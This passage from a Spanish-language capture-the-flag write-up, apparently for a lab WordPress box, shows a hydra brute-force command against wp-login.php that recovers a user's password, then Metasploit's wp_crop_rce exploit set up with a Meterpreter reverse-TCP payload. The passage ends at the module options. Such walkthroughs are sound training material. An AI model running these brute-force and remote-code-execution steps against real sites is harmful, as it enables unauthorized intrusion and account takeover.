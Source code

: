 - Aparte de los usuarios, hemos identificado la versión de WordPress, en este caso , 5.0.  
- Guardamos los usuarios encontrados (bjoel,kwheel) en un archivo "users.txt".  

- Intentamos encontrar la contraseña de uno de estos usuarios aplicando fuerza bruta con hydra, obteniendo primero con burpsuite la información de la petición hecha por POST al intentar logearnos y tomando como referencia el mensaje de error de logeo al intentar entrar con uno de los usuarios que hemos encontrado:  

```bash
$hydra -L users.txt -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.95.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -t 20
```


```bash
[STATUS] 2049557.86 tries/min, 14346905 tries in 00:07h, 14341891 to do in 00:07h, 20 active
[80][http-post-form] host: 10.10.95.98   login: kwheel   password: cutiepie1
```

- Guardamos la credencial encontrada y la usamos para entrar en la página de WordPress como el usuario "kwheel".  

- Con acceso a WordPress 5.0, podemos buscar alguna vulnerabilidad para dicha versión.  


# Exploit WordPress 5.0 RCE:  

- En mestasploit buscamos vulerabilidades:

```bash
search wordpress 5.0
```

- Encontramos un "Crop-Image Shell Upload", usamos dicha exploit:

```bash
use exploit/multi/http/wp_crop_rce
```

- Desplegamos los parámetros que necesita la exploit para ejecutarse:

```bash
show options
```

```
Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.35     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```